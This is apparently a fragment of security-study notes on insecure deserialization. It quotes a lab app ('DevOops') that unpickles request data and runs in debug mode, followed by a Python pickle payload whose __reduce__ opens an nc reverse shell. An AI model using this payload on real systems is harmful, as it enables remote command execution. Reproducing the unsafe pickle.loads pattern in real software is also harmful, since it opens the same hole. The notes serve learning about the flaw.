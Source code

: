 ```python
print(payload)
```

Example from [DevOops](https://www.notion.so/DevOops-328e4135b49d4c9aac1687410b4d6204) 

```python
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)

@app.route("/")
def xss():
    return template('index.html')

@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")

@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']

## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)
```

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Java


[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master
[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com